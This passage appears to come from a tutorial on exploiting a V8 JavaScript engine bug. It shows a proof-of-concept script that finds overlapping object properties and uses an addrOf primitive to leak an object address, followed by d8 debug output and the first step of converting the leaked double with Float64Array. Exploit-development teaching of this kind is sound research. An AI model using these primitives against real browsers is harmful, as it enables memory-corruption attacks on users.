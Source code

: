 ```js
print(`[+] Properties p${p1} and p${p2} overlap!`);
let x = addrOf();
print("[+] Leaking Object Address...");
print(`[+] Object Address: ${x}`);
```

With that, we can now execute the updated script in d8, and should get output similar to the following:

```
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties...
[+] Properties p6 and p7 overlap!
DebugPrint: 000001E72E81A369: [JS_OBJECT_TYPE] in OldSpace
 - map: 0x005245541631 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x00bfad784229 <Object map = 00000052455022F1>
 - elements: 0x0308c8602cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x0308c8602cf1 <FixedArray[0]> {
    #z: 1234 (data field 0)
 }
0000005245541631: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 32
 - inobject properties: 1
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x00524550c201 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x0379e0b82201 <Cell value= 1>
 - instance descriptors (own) #1: 0x01e72e80f339 <DescriptorArray[5]>
 - layout descriptor: 0000000000000000
 - prototype: 0x00bfad784229 <Object map = 00000052455022F1>
 - constructor: 0x00bfad784261 <JSFunction Object (sfi = 00000379E0B8ED51)>
 - dependent code: 0x0308c8602391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[+] Leaking Object Address...
[+] Object Address: 1.033797443889e-311
```

As you can see, the `addrOf` function returned a double floating-point value! Now we need to convert this floating point to an actual address so we can validate its correctness.

To do that, we can use [TypedArrays](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/TypedArray) which allows us to describe an array-like view of an underlying [binary data buffer](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/ArrayBuffer). Since the data returned to us is a double precision floating point value, we can use the [Float64Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Float64Array) to store our double in binary format like so:

```js
d8> let floatView = new Float64Array(1);
d8> floatView[0] = 1.033797443889e-311
```
